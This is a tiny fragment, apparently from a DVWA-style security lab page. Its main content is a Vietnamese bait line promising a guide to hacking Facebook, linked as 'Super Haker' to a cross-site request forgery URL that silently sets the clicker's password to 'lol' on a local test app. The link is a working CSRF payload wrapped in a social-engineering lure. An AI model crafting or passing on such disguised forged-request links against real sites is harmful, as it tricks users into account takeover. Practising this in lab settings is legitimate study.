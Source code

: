 Đọc hướng dẫn cách hack fb nè!
[Super Haker](http://192.168.1.28/vulnerabilities/csrf/?password_new=lol&password_conf=lol&Change=Change#)^^
